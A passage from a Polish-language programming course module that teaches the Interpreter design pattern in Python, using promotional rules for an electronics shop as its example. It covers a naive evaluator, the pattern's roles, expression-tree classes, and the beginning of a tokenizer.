







```markdown
---
modul: 32 — Interpreter
plik: 32-interpreter.md
poziom: zaawansowany
wymaga: [31]
czas: ~190 minut czytania + ~440 minut ćwiczeń
---

# Moduł 32 — Interpreter — gdy potrzebujesz własnego mini-języka

> **TL;DR**
> - **Interpreter (interpreter)**: dla danego języka zdefiniuj **reprezentację gramatyki** (drzewo wyrażeń) i **interpreter**, który z tej reprezentacji ewaluuje zdania.
> - To **najrzadziej potrzebny wzorzec** z całego katalogu GoF — w większości projektów **nie powinieneś** pisać własnego parsera, a istnieją lepsze narzędzia: `ast`, `ast.literal_eval`, `lark`, `pyparsing`, YAML, JSONPath.
> - Jeśli już piszesz interpreter, to znaczy że twoja domena **naprawdę** ma własny mini-język — reguły promocyjne, filtr danych, DSL zapytań, ekspresje warunkowe konfigurowalne przez biznes.
> - Drzewo wyrażeń to **Composite** (moduł 22) — ta sama struktura, inna semantyka: liście to wartości, gałęzie to operatory, ewaluacja to rekurencyjne zejście.
> - **Trzy pułapki zabijają interpretery**: bezpieczeństwo (`eval`), błędy parsera bez diagnostyki, i próba upchnięcia zbyt dużej gramatyki w tym wzorcu — ostatnia wymaga generatora parserów (`lark`, `pyparsing`), nie Interpretera.

---

## 0. Model mentalny

### Kalkulator z instrukcją, nuty i wykonawca

Wyobraź sobie, że masz przed sobą kartkę z instrukcją obsługi kalkulatora. Instrukcja mówi: „aby policzyć `2 + 3 * 4`, wykonaj: najpierw pomnóż 3 przez 4, potem dodaj do wyniku 2". Widzisz tu **trzy poziomy**: na najwyższym jest zdanie w języku matematyki (`2 + 3 * 4`), na środkowym jest **gramatyka** tego języka (co to znaczy „pomnóż", w jakiej kolejności, jakie są priorytety operatorów), a na najniższym jest **wykonanie** (dodawanie, mnożenie).

Zauważ coś fundamentalnego: **kalkulator nie potrzebuje znać każdej możliwej liczby z góry**. Instrukcja nie zawiera „tabeli wyników dla wszystkich możliwych par cyfr". Zawiera **regułę**: „jeśli widzisz operator `*`, pomnóż dwie liczby po bokach". Z tej jednej reguły kalkulator obsłuży nieskończone kombinacje `a * b`, `c * d`, `x * y`, i tak dalej. Ta „regułowość" jest istotą języka — i tym, co odróżnia język od słownika. W słowniku każde zdanie jest osobno. W języku zdania są **składane** z klocków wedle reguł.

Idźmy dalej — do nut. Wyobraź sobie kartkę z zapisem nutowym. Nuty same w sobie są tylko **rysunkami**: kółka, kreski, ogonki. Ale mają **gramatykę**: „ósemka to nuta z jednym ogonkiem", „akord to kilka nut granych razem", „fermata to przedłużenie dźwięku". Muzyk, patrząc na kartkę, **rekonstruuje strukturę** (która nuta jest w której taktowej grupie, gdzie są pauzy, które grupy idą razem) i z tej struktury **wykonuje** muzykę. Ta **struktura** — odpowiednik drzewa wyrażeń — jest kluczowa, bo dopiero ona realizuje sens utworu. Kartka z nutami bez struktury to tylko obrazek.

I wreszcie trzeci obraz, który pokazuje pełną głębię wzorca. Wyobraź sobie arkusz Excela z formułą `=JEŻELI(A1>1000; A1*0,1; A1*0,05)`. Ta formuła jest w **dwóch postaciach jednocześnie**. Pierwsza — tekstowa, którą widzisz na pasku formuły. Druga — **drzewo operacji**, które Excel faktycznie wykonuje: korzeniem jest `JEŻELI`, lewym dzieckiem warunek `A1>1000`, prawym dwa oddzielne wyrażenia arytmetyczne. Widząc tekst, Excel **parsuje** go i buduje drzewo. Potem — dla każdej zmiany A1 — **ewaluuje** to drzewo. To jest dokładnie ten podział: **parsuj raz, ewaluuj wielokrotnie**. I jeszcze rzecz kluczowa: Excel **nie pozwala** użytkownikowi wpisać dowolnego kodu — tylko formuły zgodne z jego gramatyką. Ta **kontrolowana gramatyka** jest tym, co odróżnia język od „dowolnego kodu". Bez niej formuła mogłaby zrobić cokolwiek.

Ostatni obraz, dla pełnego zrozumienia. Wyobraź sobie **książkę kucharską napisaną w kodzie**: przepis ma kroki, warunki („jeśli ciasto wyrośnie, to piecz"), powtórzenia („mieszaj przez 5 minut"). Jeśli chcesz, żeby kucharz ze zmywarki wykonał przepis, nie posyłasz mu tekstu — musisz go **skompilować do instrukcji**, które kucharz rozumie. Analogicznie system reguł biznesowych: biznes pisze „kupony 10% powyżej 500 zł", a system musi to wyrazić w jakiejś formalnej gramatyce i **wyegzekwować** przy każdym zamówieniu. Ta warstwa formalizacji to interpreter.

| W analogii kalkulatora/nut/formuł | W kodzie |
|---|---|
| Zdanie w języku matematyki | Tekst polecenia (`"kategoria == 'elektronika' AND kwota > 1000"`) |
| Gramatyka języka | Reguły parsowania |
| Składnia zdania | Drzewo wyrażeń (AST) |
| Instrukcja obsługi | Parser |
| Wykonanie kroków | Ewaluacja drzewa (metoda `eval`) |
| Klocki do składania zdań | Liście (`Number`, `Variable`) i gałęzie (`Add`, `And`) |
| Kartka z nutami | Dane wejściowe (tekst reguły) |
| Struktura utworu | Drzewo wyrażeń |
| Muzyk | Ewaluator |
| Formuła Excela | Konkretny przykład zastosowania |

> 🧠 **Zapamiętaj** — **Interpreter (interpreter) to wzorzec behawioralny, który dla danego języka definiuje reprezentację jego gramatyki jako drzewo obiektów (AST — abstract syntax tree, abstrakcyjne drzewo składniowe) oraz interpreter wykonujący ewaluację na tej reprezentacji.**

Zwróć uwagę na cztery słowa: **język**, **gramatyka**, **drzewo**, **ewaluacja**. „Język" — musi istnieć uzasadnienie dla niego (nie każdy system go potrzebuje). „Gramatyka" — zbiór reguł, jak składać zdania. „Drzewo" — reprezentacja struktury zdania. „Ewaluacja" — wykonanie. Te cztery słowa opisują wzorzec w całości.

Jest jeszcze jedna rzecz, którą warto powiedzieć od początku. **Interpreter to jedyny wzorzec, którego nie powinieneś używać domyślnie.** Wszystkie inne moduły kursu mają sekcję „kiedy NIE używać" w duchu „uważaj, bo może być przesadą". Tu jest inaczej. Tu uczciwa rekomendacja brzmi: **w 95% przypadków nie pisz interpretera**. W 5% przypadków, gdy piszesz — ten moduł pokaże, jak to robić odpowiedzialnie.

### Diagram — intuicja przetwarzania



*Diagram pokazuje trzy etapy: tekst rozbity na tokeny, tokeny zebrane w drzewo, drzewo ewaluowane wielokrotnie — kluczowa obserwacja jest taka, że parsowanie dzieje się raz, a ewaluacja bywa wielokrotna.*

### Czego Interpreter NIE robi

Rozbrójmy mity — jest ich dużo, bo temat jest trudny.

**Nie jest optymalnym narzędziem do parsowania każdego tekstu.** Interpreter nadaje się tylko do **małych, kontrolowanych języków** — 5–20 reguł gramatycznych. Dla większych potrzebujesz generatora parserów (`lark`, `pyparsing`, `ply`) albo gotowego narzędzia (`json`, `re`, `ast`).

**Nie zastępuje `eval`.** Wręcz przeciwnie — jednym z głównych powodów, dla których pisze się interpreter, jest **uniknięcie** `eval`. `eval` wykonuje dowolny kod, a interpreter własnego języka wykonuje tylko to, co dopuszcza gramatyka.

**Nie jest szybki.** Ewaluacja drzewa rekurencyjnego jest wolniejsza niż natywnie skompilowany kod. Dla 100 000 ewaluacji na sekundę — potrzebujesz generera kodu, nie interpretera.

**Nie rozwiązuje problemu „wyrażeń w konfiguracji" w ogólnym przypadku.** Często najlepszym rozwiązaniem jest **wyrzucenie wyrażeń** — zaprojektowanie konfiguracji tak, żeby nie potrzebowała logiki. Np. zamiast `"kwota > 1000 AND lojalny"` — lista reguł z typami i parametrami.

**Nie jest uniwersalny.** Interpreter jest dla konkretnego języka w konkretnej domenie. Jeśli twoje reguły zmieniają się co tydzień w sposób nieprzewidywalny, gramatyka musi rosnąć — a to prowadzi do przepisania interpretera na generator parserów.

**Nie jest tani.** Interpreter kosztuje: lexer, parser, drzewo, ewaluator, obsługa błędów, testy. To tysiące linii kodu dla nawet prostego języka. Zanim go napiszesz, sprawdź, czy naprawdę musisz.

---

## 1. Problem, który rozwiązujemy

Wejdźmy w domenę 🛒 ze sklepem sprzedającym produkty elektroniczne — obsługiwanym przez dział marketingu. Marketing chce **sam definiować reguły promocyjne** bez proszenia programistów. Wyobraź sobie, że chcą zapisywać je w systemie w formie tekstowej, np.:

```
kategoria == "elektronika" AND kwota > 1000
lojalny == True OR nowy_klient == True
kupon == "PROMO10" AND (kwota - rabat) > 500
```

Reguły zmieniają się co miesiąc. Zespół programistów **nie chce** wypuszczać nowej wersji aplikacji za każdym razem. Ktoś napisał więc „interpreter" — w najprostszej, naiwnej formie.

### Kod „przed"

```python
# reguły_v0.py — wersja naiwna, demonstracyjna
# UWAGA: kod celowo pokazuje problem z naiwnym interpretowaniem wyrazen.

from dataclasses import dataclass
from decimal import Decimal


@dataclass(frozen=True)
class Zamowienie:
    kategoria: str
    kwota: Decimal
    lojalny: bool = False
    nowy_klient: bool = False
    kupon: str | None = None


class NaiwnyEwaluator:
    """Naiwny ewaluator regul - tylko kilka wzorcow stringowych."""

    def dopasuj(self, regula: str, zamowienie: Zamowienie) -> bool:
        regula = regula.strip()

        # 1. Wzorzec: "kategoria == X"
        if "kategoria ==" in regula:
            wartosc = regula.split("==")[1].strip().strip('"').strip("'")
            return zamowienie.kategoria == wartosc

        # 2. Wzorzec: "kwota > N"
        if "kwota >" in regula:
            wartosc = regula.split(">")[1].strip()
            return zamowienie.kwota > Decimal(wartosc)

        # 3. Wzorzec: "lojalny == True"
        if "lojalny ==" in regula:
            return zamowienie.lojalny

        # 4. Wzorzec z AND: "A AND B"
        if " AND " in regula:
            czesci = regula.split(" AND ")
            return all(self.dopasuj(c, zamowienie) for c in czesci)

        # 5. Wzorzec z OR: "A OR B"
        if " OR " in regula:
            czesci = regula.split(" OR ")
            return any(self.dopasuj(c, zamowienie) for c in czesci)

        raise ValueError(f"nieznany wzorzec: {regula!r}")


if __name__ == "__main__":
    ew = NaiwnyEwaluator()
    z = Zamowienie("elektronika", Decimal("1500.00"), lojalny=True)

    print(ew.dopasuj('kategoria == "elektronika"', z))         # True
    print(ew.dopasuj('kategoria == "elektronika" AND kwota > 1000', z))  # True
    print(ew.dopasuj('lojalny == True', z))                    # True
```

Ten kod działa dla prostych przypadków. Ale zawiera fundamentalne problemy, których nie da się naprawić „poprawkami":

### Code smell — ręczne wzorce stringowe

| Problem | Gdzie | Konsekwencja |
|---|---|---|
| Analiza stringa przez `in` i `split` | Każdy warunek | Nie zna gramatyki — nie odróżnia operatora od wartości |
| Kolejność sprawdzeń wymuszona przez kod | Sekwencja `if`ów | `AND` musi być sprawdzone przed `OR` — inaczej `A AND B OR C` zostanie źle sparsowane |
| Brak priorytetów operatorów | Brak | `a OR b AND c` daje zły wynik (najpierw `OR`, potem `AND` zamiast odwrotnie) |
| Brak obsługi nawiasów | Brak | `(a OR b) AND c` nie działa |
| Brak tokenizacji | Split po stringach | Ciąg `kategoria =="elektronika"` (bez spacji) nie działa |
| Błąd parsera bez diagnostyki | `raise ValueError` | „nieznany wzorzec" nie mówi, gdzie i dlaczego |
| Brak typów wartości | Wszystko string | Kwota to `Decimal`, ale porównanie idzie przez string |
| Brak możliwości rozszerzenia | Każdy nowy operator = nowy `if` | Rosnąca lawina warunków |
| Podatność na różne formaty | Ręczne stripowanie | Literówka w komentarzu marketingowym wywala ewaluację |

### Objawy — poznasz ten problem po tym, że...

- **Parsujesz stringa ręcznie.** `split`, `strip`, `in` — to znak, że brakuje ci gramatyki.
- **Kolejność warunków w kodzie decyduje o gramatyce.** `if " AND " in ...` musi być sprawdzone przed `" OR " in ...`. To niejawne priorytety — łatwo się pomylić.
- **Marketing przysyła tekst i oczekuje, że „będzie działał".** A ty musisz debugować, dlaczego `kategoria=="elektronika"` bez spacji nie działa.
- **Każde rozszerzenie o nowy operator (np. `<`, `>=`, `!=`) dopisuje kolejny `if`.**
- **Nie masz sposobu, żeby powiedzieć „od pozycji X to nie ma sensu".** Brak komunikatów parsowania.
- **Nawiasy nie działają.** Każda próba dodania ich to kombinatoryczna eksplozja warunków.
- **Testy są kruche.** Zmiana jednego formatu stringa (np. dodanie spacji) psuje połowę testów.
- **Nie odróżniasz „nieznany operator" od „błędna wartość".** Wszystkie błędy wyglądają tak samo.
- **Trudno napisać podpowiedź dla użytkownika** („wpisz operator spośród: `==`, `<`, `>`"). Bo nie ma listy operatorów.

---

## 2. Anatomia wzorca

### Uczestnicy

| Rola | Odpowiedzialność | Co NIE jest jej zadaniem |
|---|---|---|
| **AbstractExpression (wyrażenie abstrakcyjne)** | Kontrakt z metodą `interpret(kontekst)` albo `eval(kontekst)` | Nie definiuje gramatyki; ta jest w strukturze drzewa |
| **TerminalExpression (wyrażenie końcowe)** | Liść drzewa: stała, zmienna, wartość bezpośrednia | Nie ma dzieci; nie operuje na innych wyrażeniach |
| **NonterminalExpression (wyrażenie złożone)** | Węzeł wewnętrzny: operator, funkcja, wyrażenie z dziećmi | Nie definiuje semantyki liści; deleguje ewaluację do dzieci |
| **Context (kontekst)** | Niesie dane, wobec których wyrażenie jest ewaluowane (np. obiekt `Zamowienie`) | Nie wie o strukturze drzewa; nie decyduje o kolejności |
| **Client (klient)** | Buduje drzewo (z tekstu przez parser albo ręcznie) i je ewaluuje | Nie interpretuje sam; deleguje do drzewa |
| **Parser (wariant Python)** | Zamienia tekst na drzewo wyrażeń | Nie jest częścią klasycznego GoF Interpretera; to element praktyczny |

Bardzo ważna uwaga: **klasyczna definicja GoF nie zawiera parsera**. Wzorzec opisuje tylko strukturę drzewa i ewaluację. Parser to dodatek praktyczny — ale w praktyce właśnie on jest najtrudniejszą częścią. To dlatego mówimy, że Interpreter „sam w sobie" jest łatwy, ale „z parserem" jest trudny.

### Klasyczny dylemat — czy parser musi być?

Można budować drzewo wyrażeń **ręcznie**, bez parsera:

```python
wyrazenie = And(
    Porownanie(Variable("kategoria"), Eq(), Literal("elektronika")),
    Porownanie(Variable("kwota"), Gt(), Literal(1000)),
)
```

To realizacja wzorca Interpreter w sensie „ściśle klasycznym" — nie ma parsera, drzewo budowane jest z kodu. Ale to ma sens tylko wtedy, gdy drzewo jest **rzadko** budowane (np. raz na start, w kompilacji). Jeśli drzewo ma być budowane przez użytkownika (marketing) — musisz napisać parser.

**Praktyczna decyzja:** prawdziwy Interpreter w produkcji zawsze ma parser. Bez parsera można by po prostu napisać kod — a nie „język".

### Diagram struktury



*Diagram pokazuje, że wszystkie wyrażenia implementują wspólny kontrakt `Expression`, a wyrażenia złożone (`And`, `Or`, `Greater`) zawierają inne wyrażenia — to ta sama struktura co Composite, tylko z semantyką ewaluacji.*

Przeczytajmy ten diagram zdanie po zdaniu. `Expression` to **wspólny kontrakt** — metoda `interpret(ctx)` (albo `eval`) przyjmuje kontekst i zwraca wartość. `Literal` i `Variable` to **liście** — nie mają dzieci, zwracają własną wartość. `And`, `Or`, `Greater` to **węzły złożone** — mają dwoje dzieci i ich ewaluacja odwołuje się do `interpret` dzieci.

Zwróć uwagę na strzałki `And --> Expression`. Każde wyrażenie złożone **zawiera** inne wyrażenia (dowolne — liście albo znowu złożone). To dokładnie struktura kompozytu. Powiemy to wprost w sekcji 2 — Interpreter **jest** Composite, tylko z inną semantyką metody.

### Połączenie z kompozytem — wyjaśnienie krok po kroku

W module 22 mówiliśmy, że Composite pozwala traktować liść i gałąź jednolicie. Interpreter robi dokładnie to samo, ale w innym celu. Porównajmy:

| Aspekt | Composite (moduł 22) | Interpreter (ten moduł) |
|---|---|---|
| Kontrakt | `wartosc()`, `opis()` | `interpret(ctx)` |
| Liść | `Instrument`, `Plik` | `Literal`, `Variable` |
| Gałąź | `GrupaPozycji`, `Katalog` | `And`, `Or`, `Greater` |
| Struktura | Drzewo | Drzewo |
| Rekurencja | Tak (`sum(a.wartosc())`) | Tak (`a.interpret(ctx)`) |
| Semantyka | Agregacja wartości | Ewaluacja wyrażeń |
| Cel | Ujednolicić traktowanie | Zbudować język |

**Wniosek:** interpretacja to Composite + semantyka ewaluacji. Jeśli zrozumiałeś moduł 22, zrozumiesz strukturę Interpretera. Różnica jest tylko w metodzie i w kontekście.

### Warianty: klasyczny vs pythoniczny

| Aspekt | Klasyczny (GoF) | Pythoniczny |
|---|---|---|
| Expression | Klasy ABC z `interpret` | `Protocol` z `interpret` albo `__call__` |
| Literal | Klasa z polem `value` | `dataclass(frozen=True)` |
| Variable | Klasa z polem `name` | `dataclass`, lookup w kontekście |
| Złożone | Klasy z referencjami do dzieci | Klasy z dziećmi, ewentualnie `functools.partial` |
| Kontekst | Klasa z metodami dostępu | `dict`, `Mapping`, `dataclass` |
| Parser | Nie (budowa ręczna) | Zawsze (`lark`, `pyparsing`, ręczny) |
| Ewaluacja | `expr.interpret(ctx)` | Możliwe także `expr(ctx)` przez `__call__` |

W Pythonie istnieją **znacząco lepsze** narzędzia niż klasyczny Interpreter do wielu przypadków — `ast`, `lark`, `pyparsing`, `re`, `json`. Zanim napiszesz własny Interpreter, sprawdź, które z tych narzędzi **nie** rozwiązuje twojego problemu. Jeśli żadne — wtedy Interpreter.

---

## 3. Implementacja krok po kroku

Przebudujemy naiwnego ewaluatora z sekcji 1 na pełny interpreter. Zaczniemy od struktury drzewa, potem dodamy parser.

### Krok 1 — Zdefiniuj kontrakt Expression

Najpierw kontrakt — metoda ewaluacji.

```python
from typing import Protocol
from decimal import Decimal

Kontekst = dict[str, object]


class Wyrazenie(Protocol):
    """Kontrakt wyrazenia - cokolwiek, co mozna zewaluowac."""

    def interpret(self, ctx: Kontekst) -> object:
        """Ewaluuje wyrazenie w danym kontekscie."""
        ...
```

Uwaga na typ zwracany: `object`, bo różne wyrażenia mogą zwracać różne typy (`bool`, `Decimal`, `str`). To świadoma decyzja — typ będziemy zawężać w miejscach użycia.

### Krok 2 — Zdefiniuj liście

Liście nie mają dzieci — zwracają swoją wartość.

```python
from dataclasses import dataclass


@dataclass(frozen=True)
class Literal:
    """Wartosc stala."""
    wartosc: object

    def interpret(self, ctx: Kontekst) -> object:
        return self.wartosc


@dataclass(frozen=True)
class Zmienna:
    """Zmienna - pobiera wartosc z kontekstu."""
    nazwa: str

    def interpret(self, ctx: Kontekst) -> object:
        try:
            return ctx[self.nazwa]
        except KeyError as blad:
            raise NameError(
                f"nieznana zmienna: {self.nazwa!r}"
            ) from blad
```

Zwróć uwagę na dwie rzeczy. Po pierwsze, **`frozen=True`** — liście są niemutowalne, co jest bezpieczne (moduł 01). Po drugie, **`Zmienna` zgłasza `NameError` z konkretnym komunikatem** — to kluczowe dla diagnostyki. Bez tego użytkownik dostanie „KeyError", a nie „brakuje zmiennej `kwota` w twojej regule".

### Krok 3 — Zdefiniuj wyrażenia złożone

Każde wyrażenie złożone ma dwoje dzieci i operację nad nimi.

```python
@dataclass(frozen=True)
class And:
    """Konkunkcja logiczna."""
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        # Short-circuit: jesli lewa jest falszywa, nie ewaluujemy prawej
        if not self.lewa.interpret(ctx):
            return False
        return bool(self.prawa.interpret(ctx))


@dataclass(frozen=True)
class Or:
    """Alternatywa logiczna."""
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        if self.lewa.interpret(ctx):
            return True
        return bool(self.prawa.interpret(ctx))


@dataclass(frozen=True)
class Not:
    """Negacja."""
    wewnatrz: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        return not self.wewnatrz.interpret(ctx)
```

**Kluczowe w tłumaczeniu:** `And` robi short-circuit. Jeśli lewa strona jest `False`, nie ewaluuje prawej. To nie tylko wydajność — to **semantyka**, którą użytkownik zna z języków programowania. Gdybyśmy ewaluowali obie strony, `A AND B` z błędnym `B` wywaliłoby błąd nawet gdy `A` jest `False`.

### Krok 4 — Wyrażenia porównania

Porównania — większe, mniejsze, równe.

```python
@dataclass(frozen=True)
class Rowne:
    """Rowne (==)."""
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        return self.lewa.interpret(ctx) == self.prawa.interpret(ctx)


@dataclass(frozen=True)
class Wieksze:
    """Wieksze (>)."""
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        l = self.lewa.interpret(ctx)
        p = self.prawa.interpret(ctx)
        try:
            return l > p
        except TypeError as blad:
            raise TypeError(
                f"nie mozna porownac {type(l).__name__} z {type(p).__name__}"
            ) from blad


@dataclass(frozen=True)
class MniejszeRówne:
    """Mniejsze lub rowne (<=)."""
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        l = self.lewa.interpret(ctx)
        p = self.prawa.interpret(ctx)
        try:
            return l <= p
        except TypeError as blad:
            raise TypeError(
                f"nie mozna porownac {type(l).__name__} z {type(p).__name__}"
            ) from blad
```

Zwróć uwagę na **konwersję wyjątków**. `l > p` może rzucić `TypeError` (jeśli `l` i `p` są różnych typów — np. `str > int`). Łapiemy to i konwertujemy na nasz komunikat — z typami. To bardzo ważne dla doświadczenia użytkownika.

### Krok 5 — Napisz tokenizator

Zanim napiszemy parser, potrzebujemy **tokenizera** — dzieli tekst na tokeny.

```python
from dataclasses import dataclass
from enum import Enum


class TypTokenu(Enum):
    LICZBA = "LICZBA"
    TEKST = "TEKST"
    ZMIENNA = "ZMIENNA"
    OPERATOR = "OPERATOR"
    NAWIAS_OTW = "NAWIAS_OTW"
    NAWIAS_ZAM = "NAWIAS_ZAM"
    KONIEC = "KONIEC"


@dataclass(frozen=True)
class Token:
    typ: TypTokenu
    wartosc: str
    pozycja: int


OPERATORY = {">=", "<=", "==", "!=", ">", "<", "AND", "OR", "NOT"}


class Lexer:
    """Dzieli tekst na tokeny."""

    def __init__(self, tekst: str) -> None:
        self._tekst = tekst
        self._poz = 0

    def tokenizuj(self) -> list[Token]:
        tokeny: list[Token] = []
        while self._poz < len(self._tekst):
            c = self._tekst[self._poz]

            if c.isspace():
                self._poz += 1
                continue

            if c == "(":
                tokeny.append(Token(TypTokenu.NAWIAS_OTW, "(", self._poz))
                self._poz += 1
                continue

            if c == ")":
                tokeny.append(Token(TypTokenu.NAWIAS_ZAM, ")", self._poz))
                self._poz += 1
                continue

            if c == '"' or c == "'":
                tokeny.append(self._czytaj_tekst())
                continue

            # Liczba?
            if c.isdigit():
                tokeny.append(self._czytaj_liczbe())
                continue

            # Operator?
            op = self._sprobuj_operator()
            if op is not None:
                tokeny.append(op)
                continue

            # Zmienna?
            if c.isalpha() or c == "_":
